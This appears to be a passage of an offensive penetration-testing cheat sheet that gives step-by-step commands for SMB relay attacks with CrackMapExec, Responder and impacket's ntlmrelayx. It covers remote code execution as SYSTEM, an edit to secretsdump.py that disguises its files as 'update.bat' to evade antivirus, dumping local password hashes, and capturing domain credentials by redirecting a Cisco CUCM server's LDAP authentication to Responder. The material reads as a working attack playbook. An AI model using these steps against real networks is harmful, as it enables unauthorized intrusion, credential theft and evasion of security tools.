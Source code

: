 #### _Get initial system level access via SMB relay attack:_
This technique allows for remote code exection with AV evasion to establish a beacon with SYSTEM privilleges on the target system\. 
>This technique requires that SMB singing is disabled on the target system \(not necessarily on the system the related connection is coming from\)\. Furthermore, the relayed authentication can’t be used for the same target system as it originates from, and only relayed users with admin privileges are useful for this purpose\. 
- 1\. Check which systems have SMB signing disabled and create list \([CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec)\): `crackmapexec smb <target ip range> --gen-relay-list targets.txt`
- 2\. Modify the Responder\.conf configuration file and disable “SMB” and “HTTP” before starting the tool \([Responder](https://github.com/lgandx/Responder)\): `python Responder.py -I <interface>`
- 3\. For OS command execution some basic AV detection evasion is necessary\. Therefore, modify the code on lines 379\-381 in ALL the impacket python3 secretsdump\.py scripts that hold the following code block \(can’t tell which one is used\) \(e\.g\. “/usr/local/lib/python3\.9/dist\-packages/impacket/examples/secretsdump\.py”\):
    ```
    self.__batchFile = 'C:\\Users\\Public\\Documents\\update.bat
    self.__shell = '%COMSPEC% /Q /c '
    self.__output = 'C:\\Users\\Public\\Documents\\update__output'
    self.__answerTMP = b''
    ```
- 4\. Start the attack and hope for an opportunity to relay a high privileged account \([impacket](https://github.com/SecureAuthCorp/impacket/)\): `python3 ntlmrelayx.py -smb2support -tf targets.txt -c "powershell.exe <command>"`

#### _Dump hashes via SMB relay attack:_
This technique can dump the local system hashes if a high integrity session is relayed\.  
- 1\. Start the relay server: `python3 ntlmrelayx.py -t smb://<target IP with SMB singing off> -smb2support`
- 2\. Use any available method \(\.lnk files, wpad spoofing, etc\.\) to capture an authentication request and hope its from a user with high privileges on the target system\. 

#### _Initial foothold via Cisco phone relay attack:_
Search for SSH keys in Cisco phone configuration files, gain access to the Cisco Unified Communications Manager \(CUCM\) web interface, and capture the LDAP domain credentials of the configured service account\. 
- 1\. Automatically download and parse configuration files from Cisco phone systems searching for SSH credentials\. Try all the following scan options \([SeeYouCM\-Thief](https://github.com/trustedsec/SeeYouCM-Thief)\):
	- Attempt to download every config in the listing: `./thief.py -H <Cisco CUCM Server IP> (--verbose)`
	- Parse the web interface for the CUCM address and do a reverse lookup for other phones in the same subnet: `./thief.py --phone <Cisco IP Phoner> (--verbose)`
	- Specify a subnet to scan with reverse lookups: `./thief.py --subnet <subnet to scan>`
- 2\. If you found SSH credentials, use the creds to login to the CUCM web interface 
- 3\. Start Responder to capture the plaintext creds of the service account \([Responder](https://github.com/lgandx/Responder)\): `python Responder.py -I <interface> -v`
- 4\. In the CUCM web interface, go to the LDAP Authentication settings and update one of the servers to be the IP address of Responder and click save\.
- 5\. If successful, check if the credentials are valid domain creds\.
